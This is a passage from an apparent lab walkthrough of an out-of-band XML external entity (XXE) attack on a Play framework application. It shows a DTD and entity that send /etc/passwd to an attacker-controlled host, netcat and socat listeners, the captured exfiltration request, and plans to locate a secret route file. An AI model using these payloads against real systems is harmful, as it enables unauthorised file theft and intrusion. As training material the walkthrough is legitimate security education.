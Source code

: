 ```xml
%p2;
```
-->This DTD will force the XML parser to read the content of /etc/passwd and assigned it to the variable p1. Then it will create another variable p2 that contains a link to your malicious server and the value of p1. Then it will print the value of p2 using the %p2. After parsing the DTD will look like:
```xml
<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?[/etc/passwd]'>
```
-->Where [/etc/passwd] is the content of /etc/passwd.
-->If you look back at the initial request that we sent, the body contains a reference to e1: `<foo>&e1;</foo>`
-->Once the server finished processing the DTD, it will resolve the reference to e1 and send the content of /etc/passwd to your server.

## Retrieving the information (step 5)
-->Finally, we need a way to receive the information. You can do that using:
-   netcat -l -p 3001 but you will need to restart the process every time you access the TCP port.
-   socat TCP-LISTEN:3001,reuseaddr,fork - that will not shutdown after the first request but can block after few requests.
-->Now that we have everything working we can retrieve the content of /etc/passwd:![[slkbsu2n.bmp]]

-->In the top right, we can see the final request with the content of /etc/passwd in the URL:
```http
GET /BLAH?root:x:0:0:root:/root:/bin/sh%0Alp:x:7:7:lp:/var/spool/lpd:/bin/sh%0Anobody:x:65534:65534:nobody:/nonexistent:/bin/false%0Atc:x:1001:50:Linux%20User,,,:/home/tc:/bin/sh%0Apentesterlab:x:1000:50:Linux%20User,,,:/home/pentesterlab:/bin/sh%0Aplay:x:100:65534:Linux%20User,,,:/opt/play-2.1.3/xxe/:/bin/false%0Amysql:x:101:65534:Linux%20User,,,:/home/mysql:/bin/false%0A HTTP/1.1
User-Agent: Java/1.7.0-internal
Host: 192.168.159.1:3001
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive	 
```

## Detecting this kind of bugs in the wild
-->In the wild, you can't be sure that the server will be allowed to connect back to you. To detect this bug (and if the server resolves external names), you can use DNS.
-->To do so, you just need to setup a DNS server and monitor its logs. Then you can send the initial request with a XML entity pointing to your domain: http://rand0m123.blah.ptl.io/. If the server is vulnerable to XML entity attacks (and can resolve external DNS name), you will see a DNS query from the vulnerable server.

## Finding the secret URL 
-->Now that everything is working, we will need to find the secret URL. Play framework uses a route file to configure what URL are available and what method should be call. We need to find this file to get access to the secret URL.
-->A common way to find where the application is located is to access the environment. This can be done by trying to read /proc/self/environ. However, this will not work as the parser does not support reading from /proc (probably because it's using DataInputStream).
-->If we go back to the content of /etc/passwd and URL-decode it (for example using Ruby), we can see that a play user exists:
```ruby
	% irb
	1.9.3-p362 :001 > require 'uri'
	 => true
	1.9.3-p362 :002 > puts URI.decode("GET /BLAH?root:x:0:0:root:/root:/bin/sh%0Alp:x:7:7:lp:/var/spool/lpd:/bin/sh%0Anobody:x:65534:65534:nobody:/nonexistent:/bin/false%0Atc:x:1001:50:Linux%20User,,,:/home/tc:/bin/sh%0Apentesterlab:x:1000:50:Linux%20User,,,:/home/pentesterlab:/bin/sh%0Aplay:x:100:65534:Linux%20User,,,:/opt/play-2.1.3/xxe/:/bin/false%0Amysql:x:101:65534:Linux%20User,,,:/home/mysql:/bin/false%0A HTTP/1.1")
	GET /BLAH?root:x:0:0:root:/root:/bin/sh
	lp:x:7:7:lp:/var/spool/lpd:/bin/sh
```